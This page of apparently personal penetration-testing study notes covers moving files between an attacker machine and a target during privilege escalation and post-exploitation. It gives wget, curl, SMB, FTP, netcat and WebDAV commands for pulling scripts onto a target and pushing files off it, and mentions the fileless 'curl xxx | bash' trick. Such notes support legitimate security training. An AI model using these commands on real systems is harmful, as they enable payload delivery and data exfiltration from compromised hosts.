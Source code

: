 # Transfer files 🛅

[![filetransfers](../../../_badges/htb/filetransfers.svg)](https://academy.hackthebox.com/course/preview/file-transfers)

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍

📚 There are also fileless techniques to avoid storing the file on the target, such as `curl xxx | bash` or other similar tricks.
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc, php, etc. 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md#file-checksum).
</div></div>

<hr class="sep-both">

## Sending a file to others 🔒

<i class="small">On the "host" where the file is:</i>

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

Start a webserver allowing clients to download the files. You may try with `python2`, and `python3` if `python` is unavailable.

```shell!
$ python -m http.server port # port > 1023 | expose pwd
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

#### Upload To SMB Share

You can use `copy` to upload a file to a client SMB share:

```shell!
PS> copy file.txt \\HOST_IP\share_name\path
PS> robocopy file.txt \\HOST_IP\share_name\path
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Upload To FTP Server

You can use the URL `ftp://HOST_IP/<target_file_name>` with a HTTP upload tool or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> (New-Object Net.WebClient).UploadFile('ftp://X/abc', 'C:\path\to\abc')
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> put <file>
ftp> bye
```

<br>

#### Other webservers 🎡

You may leverage an installed web development tool/package to start a webserver allowing clients to download files:

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
```
</div></div>

<hr class="sep-both">

## Receiving/Fetching a file 🔑

<i class="small">On the "client" that need the file:</i>

<div class="row row-cols-lg-2"><div>

#### Using Common Utilities

The `wget` command is available on both Linux and Windows.

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

You may have to use `curl` or `iws` (Windows-only) instead of `wget`.

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

#### Host A Simple Upload Server

Run a webserver with an upload file form, such as the one below:

```ps
$ sudo pip3 install uploadserver
$ python3 -m uploadserver
```

And make the client use it to upload the file.
</div><div>

#### Download From SMB Share

You can use `copy` to download a file from a share:

```shell!
PS> copy \\HOST_IP\share_name\file_path
PS> robocopy \\HOST_IP\share_name\file_path .
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).

<br>

#### Download From FTP Server

You can use the URL `ftp://HOST_IP/<file_name>` with a HTTP client such as `wget` or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> get <file>
ftp> bye
```
</div></div>

<hr class="sep-both">

## Additional Elements

<div class="row row-cols-lg-2"><div>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable.

* [Simple SMB Server](/operating-systems/networking/protocols/smb.md) (Linux Host)
* [Simple FTP Server](/operating-systems/networking/protocols/ftp.md#simple-ftp-server) (Linux Host)

An alternative to SMB that uses HTTP is WebDav.

```shell!
$ sudo apt install python3-wsgidav
$ wsgidav --host=0.0.0.0 --port=8080 --root=/tmp/smbshare --auth=anonymous
PS> iwr -Uri "http:/IP:8080/<file>"
PS> copy \\IP\DavWWWRoot\<file> # 👻 // didn't work
```
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using base64, copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc)
* [PSUpload](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
</div><div>
</div></div>